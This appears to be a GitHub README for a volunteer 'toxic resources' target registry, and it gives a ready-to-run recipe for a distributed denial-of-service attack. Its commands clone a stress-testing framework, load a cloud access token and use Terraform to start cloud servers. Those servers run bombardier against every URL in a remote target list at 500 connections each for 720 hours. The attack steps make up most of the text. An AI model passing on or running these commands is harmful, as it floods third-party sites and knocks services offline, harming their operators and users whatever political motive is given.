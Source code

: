 # Registry of toxic resources 
[https://raw.githubusercontent.com/cyber-army-of-ukraine/toxic-resources/master/resources.txt]

## How to stop
Feel free to use any tool you wish and synchronize it with resources registry.

If you don't know how to scale and run in in cloud feel free to use [Massive Stress Framework](https://github.com/ynovel/massivestress).  
1. Clone repository.
   ```shell
    git clone https://github.com/ynovel/massivestress.git
    ```
2. [Istall Terraform](https://learn.hashicorp.com/tutorials/terraform/install-cli#install-terraform).
3. Retrieve access token from your cloud provider.
4. Choose your bundle and run commands (below).

### Available bundles:
* Cloud "**Digital Ocean**", Runner "**alpine/bombardier**". Run in command line:
```shell
cd massivestress # path where cloned ynovel/massivestress repository is placed
export DIGITALOCEAN_ACCESS_TOKEN="<CHANGE TO YOUR PERSONAL ACCESS TOKEN>"
cd keys
/bin/sh gen_ssh_keys.sh
cd ../terraform/digital_ocean
terraform init
echo -e 'runner_resources_url = "https://raw.githubusercontent.com/cyber-army-of-ukraine/toxic-resources/master/resources.txt"
runner_bombardier_connections_per_resource = 500
instance_count = 3
instance_region = "fra1"
instance_type = "s-1vcpu-1gb"
runner_bombardier_duration = "720h"
' > terraform.tfstate
terraform apply # type "yes"
```
